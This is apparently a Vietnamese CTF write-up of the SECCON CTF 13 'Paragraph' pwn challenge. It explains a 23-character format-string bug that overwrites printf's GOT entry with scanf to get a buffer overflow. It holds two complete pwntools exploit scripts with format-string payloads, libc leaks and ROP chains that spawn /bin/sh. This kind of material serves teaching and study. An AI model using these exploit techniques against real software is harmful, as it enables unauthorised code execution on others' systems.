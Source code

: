 ```yaml
--- 
title: SECCON CTF 13
date: 2025-03-06 
description : 'SECCON13'
tags: ['pwn','fsb']
author: ['kuvee']
---
```


mặc dù giải đã end khá lâu tuy nhiên dạo này bận ôn thi nên mình mới có time để ghi lại 


## Paragraph 

checksec : 

![image](https://hackmd.io/_uploads/Sy-wxNw7ye.png)

reverse :

ta được nhập 23 kí tự và có 1 bug fsb ở đây 

![image](https://hackmd.io/_uploads/rJS6yEP71g.png)

ta sẽ focus chính vào cách exploit bằng bug format string ở bài này , tuy nhiên nó lại chỉ cho ta nhập 23 kí tự.

- suy nghĩ đầu tiên có lẽ là cần overwrite GOT vì bài này RELRO 1 phần , vậy ta cần suy nghĩ ta sẽ phải overwrite thằng got nào và giá trị ta cần overwrite sẽ là gì?

- hmmm , vì bài này chỉ được phép xài fsb đúng 1 lần nên sẽ khá khó để leak libc xong rồi overwrite GOT bằng system ( thêm 1 điều nữa là đầu vào bị hạn chế nên cách này sẽ không thể) , 

ta sẽ thử quan sát : 

![image](https://hackmd.io/_uploads/SJjPWNDmJe.png)

địa chỉ libc của scanf và printf ở trường hợp này chỉ khác nhau 2 byte (thực tế sẽ là 2 byte rưỡi  = 12 bit) , vậy nếu ta ghi printf() thành scanf() thì sao ? 

![image](https://hackmd.io/_uploads/ByC3b4w7ye.png)


- tiếp theo sau đó nó sẽ dùng printf() với fmt là %s , vậy nếu nó là scanf() thì ta có 1 lỗi BOF ở đây luôn -> end

- còn 1 điều quan trọng nữa là bài này có lẽ cần phải bruteforce vì ta chỉ được input 23 kí tự , hoặc ta cũng có thể ghi thành PLT scanf() và cũng không cần bruteforce vì số byte của PLT lúc này khá ít (4198560) và nó sẽ không bị lỗi (cần sự trợ giúp của pwntools)


- vậy cách đầu tiên đơn giản là sẽ brute_force với tỉ lệ 1/16 , sau đó ta có được libc luôn và get_shell

script 

```python
from pwn import *

context.log_level = 'debug'

printf_got = 0x0404028
scanf_got = 0x0404030
scanf_plt = 0x4010A0
pop_rdi = 0x0000000000401283
ret = 0x000000000040101a

libc = ELF('./libc.so.6')
while True:
    e = ELF('./chall_patched')
    p = process(e.path)

    pay =b''
    pay += b"%32256c%8$hn%1$p"
    pay += b'A' * (0x10 - len(pay))
    pay += p64(e.got['printf'])[:-1]

    p.sendlineafter(b'"What is your name?", the black cat asked.\n', pay)
    try:

        p.recvn(32256)
        leak = int(p.recv(14).decode(), 16)
        lb = leak - 0x1b28c0
        system = lb + libc.sym['system']
        binsh = lb + list(libc.search(b'/bin/sh'))[0]
        log.critical(f"leak: {hex(leak)}")
        log.critical(f"lb: {hex(lb)}")
        log.critical(f"system: {hex(system)}")
        log.critical(f"binsh: {hex(binsh)}")
        p.recv()
        pay = b' answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted '
        pay += b'A' * 0x28
        pay += p64(ret)
        pay += p64(pop_rdi)
        pay += p64(binsh)
        pay += p64(system)
        pay += b' warmly.sdf\n'
        p.sendline(pay)

        p.sendline(b'id')
        tmp = p.recv()
        print(tmp)
        break
    except Exception as e:
        print(e)
        p.close()
        continue

p.interactive()
```


cách thứ 2 là ta sẽ thay đổi ```got``` của printf thành ```scanf_plt``` , ta sẽ dùng ```pwntools``` để làm việc này và không cần brute_foce , sau đó ta có thể dùng ROP để leak libc ....  , ở đây mình sẽ dùng ```scanf``` để ghi ```/bin/sh``` vô ```bss``` và cùng lúc ```leak_libc``` , cuối cùng là setup cho one_gadget 

script 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./chall',checksec=False)
io = process()
libc = ELF('./libc.so.6')
#gdb.attach(io,gdbscript='''

 #       b*0x00000000004011fa
  #      b*0x000000000040121D
    #       ''')

one_gadget = [0x583dc,0x583e3,0xef4ce,0xef52b]
log.info(f"one_gadget {hex(one_gadget[3])}")

writes = {
    exe.got.printf: p64(exe.sym.__isoc99_scanf)
}

payload = fmtstr_payload(6, writes, write_size='int')  # generate most
payload = b'%4198560d%8$llna(@@\x00\x00\x00\x00'  # <-- same as pwntools but removed some null bytes
print(len(payload))
input()
io.sendlineafter(b'"What is your name?", the black cat asked.\n', payload)

p = b"A" * 40
p += p64(0x401281)  # 0x401281: pop rsi ; pop r15 ; ret ;
p += p64(0x404150)  # .bss
p += p64(0)
p += p64(0x401283)  # 0x401283: pop rdi ; ret ;
p += p64(0x403078)  # %s warmly.\n
p += p64(0x401060)  # scanf
p += p64(0x401283)  # 0x401283: pop rdi ; ret ;
p += p64(0x404050)  # 0x404050 <stdout@@GLIBC_2.2.5>:   0x00007d0f7ba045c0
p += p64(0x401030)  # puts

p += p64(0x401196) # main



io.sendline(
    b' answered, a bit confused.\n"Welcome to SECCON," the cat greeted '
    + p
    + b" warmly.\n\n"
)
io.sendline(b"/bin/sh #" + b" warmly.\n\n")

res = io.recvline()[-7:].strip()
print(res)
leakedlibc = u64(res.ljust(8, b"\x00"))
log.info(f"leaked libc: {hex(leakedlibc)}")

libc.address = leakedlibc - libc.sym["_IO_2_1_stdout_"]
log.info(f"libc base: {hex(libc.address)}")

p = b"A" * 40

"""
0x583e3 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, rip+0x17302e, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

"""
p += p64(libc.address + 0x10E243)  # pop rcx ; ret
p += p64(0)
p += p64(libc.address + 0x5ACE9)  # pop rbx ; ret
p += p64(0)
p += p64(libc.address + 0x583E3) # posix_spawn

io.recvuntil(b"asked.\n")
input("input")
io.sendline(
    b' answered, a bit confused.\n"Welcome to SECCON," the cat greeted '
    + p
    + b" warmly.\n\n"
)


io.interactive()
```